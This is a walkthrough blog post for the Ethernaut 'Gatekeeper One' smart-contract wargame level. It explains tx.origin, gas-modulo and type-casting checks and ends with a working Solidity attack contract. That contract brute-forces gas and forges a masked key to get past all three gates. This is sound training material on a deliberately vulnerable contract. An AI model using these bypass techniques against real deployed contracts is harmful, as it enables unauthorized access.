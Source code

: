 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 13 - Gatekeeper One"
datePublished: Tue Mar 28 2023 22:34:00 GMT+0000 (Coordinated Universal Time)
cuid: clfsu4nwr000e09mg5k3ofps9
slug: ethernaut-walkthrough-for-noobs-13-gatekeeper-one
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1680028896426/73e97479-5e8c-4887-8f5f-25f58c186b05.jpeg
tags: ethereum, web3, smart-contracts, 2articles1week, ethernaut

---
```


I will explain the challenge in a slightly different way this time, usually, we start with some background information, look at the code, and then write a solution.

This challenge is different as there are three mini-challenges mixed in, so we will have to tackle them one by one.

> There are three gates, and we have to pass the gates to clear the level.
> 
> Objective: Make it past the gatekeeper and register as an entrant to pass this level.

### Gate 1

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

We have looked at the concept of `tx.origin` in a previous challenge [Telephone](https://adityabajaj.hashnode.dev/ethernaut-walkthrough-for-noobs-4-telephone). Refer to that challenge to understand the concept behind `tx.origin`.

Basically, to pass this modifier, we must create an intermediary contract and that contract should interact with the GatekeeperOne contract.

Hence, The intermediary contract == `msg.sender` and our address == `tx.origin`. Thus, passing the condition.

### Gate 2

```solidity
  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }
```

`gasleft()` is an in-built function and as its name suggests, tells us the remaining gas left after the contract call.

The modifier here means that the gas left should yield a remainder 0 when divided by 8191, that is the gas left should be a multiple of 8191. To solve this we must send the exact amount of gas "required to execute all the contract code + enough that it's divisible by 8191"

There are two ways to solve the issue, the barbarian way would be to translate all the solidity code in EVM opcodes, and calculate the gas which further depends on the compiler version you are using, etc. It's safe to say that we are not using this method.

The second, more smarter way would be to brute-force the function, incrementing gas using a loop until we hit the sweet spot.

### Gate 3

```solidity
modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }
```

To pass this gate, we need to understand type conversions, downcasting, upcasting, and bitmasking.

1. Upcasting: When we convert a smaller data type into a larger data type. There is no data loss and the extra space is padded with 0s. Integers are padded on the left whereas fixed-size byte types are padded on right. [Refer this](https://docs.soliditylang.org/en/latest/types.html#conversions-between-elementary-types)
    
    ```solidity
    uint16 a = 0x1234;
    uint32 b = uint32(a); // b will be 0x00001234 now
    ```
    
    ```solidity
    bytes2 a = 0x1234;
    bytes4 b = bytes4(a); // b will be 0x12340000
    ```
    
2. Downcasting: When we convert a bigger datatype into a smaller datatype. This is problematic since we will have data loss. In integers, higher-order bits will get cut and in fixed-sized bytes types lower order will get cut.
    
    ```solidity
    uint32 a = 0x12345678;
    uint16 b = uint16(a); // b will be 0x5678 now
    ```
    
    ```solidity
    bytes2 a = 0x1234;
    bytes1 b = bytes1(a); // b will be 0x12
    ```
    
3. Bitmasking: This is the act of applying a "mask" to a value. Basically using some bitwise operators like `AND` `OR` or `XOR` to mask or choose which subset you would want and which you want to clear.
    
    We will be using the `AND` operator in this challenge. [Read more](https://www.geeksforgeeks.org/bitwise-operators-in-c-cpp/)
    
    *Note: Bitwise Operators should not be confused with Logical Operators.*
    

Since we got the background down, let's look at Gate 3, and see how we can pass that. The `gateThree` modifier takes an 8-byte input. Let's assume that to be `0x A1 A2 A3 A4 A5 A6 A7 A8`

*Note:* `uintX` *or the number after* `uint` *i.e. X is in bits and not bytes, so divide that by 8 for understanding.*

1. ```solidity
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
    //this condition states that 
    //0x A5 A6 A7 A8 == 0x 00 00 A7 A8 
    
    //which basically means that A5 A6 must be zeroes. 
    ```
    
2. ```solidity
    require(uint32(uint64(_gateKey)) != uint64(_gateKey)) 
    //this condition states that 
    
    //0x 00 00 00 00 A5 A6 A7 A8 != 0x A1 A2 A3 A4 A5 A6 A7 A8
    
    //which basically means that, A1 A2 A3 A4 cannot be zeroes. 
    ```
    
3. ```solidity
    require(uint32(uint64(_gateKey)) == uint16(tx.origin))
    //this condition states that 
    
    //0x A5 A6 A7 A8 == 0x 00 00 (bytes from tx.origin)
    
    //which basically means that A7 and A8 must be the last two bytes of tx.origin.
    ```
    

All of this summarized means this: `0x NZ NZ NZ NZ 00 00 TX TX`, where

1. `NZ == any non-zero data`
    
2. `TX = tx.origin data`
    

since we only need to make sure that A5 and A6 are zeroes, we can add an `AND` bitwise operator on `tx.origin` to generate the required key.

```solidity
bytes8(uint64(tx.origin) & 0xFFFFFFFF0000FFFF

//adding bytes8 to convert it to required format. 
//using the & bitwise operator as a mask, A5 and A6 in tx.origin will turn to zero and rest everything else will remain the same. 
```

We are pretty much done with the explanation, let's check the solution.

### Solution

```solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.18; 

contract TheMasterKey{
//gate 1 is automatically passed, since we are using another contract to interact with Gatekeeper One. 
    function attack(address _GateKeeper) external { //function that takes the Gatekeeper Contract Address
        bytes8 gatekey = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF); //to bypass gate3. 

        for(uint256 i=0; i<300; i++) { //creates a for loop
            uint256 totalGas = i + (8191 * 4); //total gas == gas spent + gas required for gate 2. 
            (bool result, ) = _GateKeeper.call{gas: totalGas}(abi.encodeWithSignature("enter(bytes8)", gatekey)); //low level call, using .enter will cause it to revert. 
            
            if (result) { //stops the loop when we succeed. 
                break;
            }
        }
    }
}
```

1. Open up your Remix IDE and Compile and Deploy this.
    
2. Add your level instance as `_Gatekeeper`
    
3. Check if the `entrant` is you
    

Submit Instance⛩️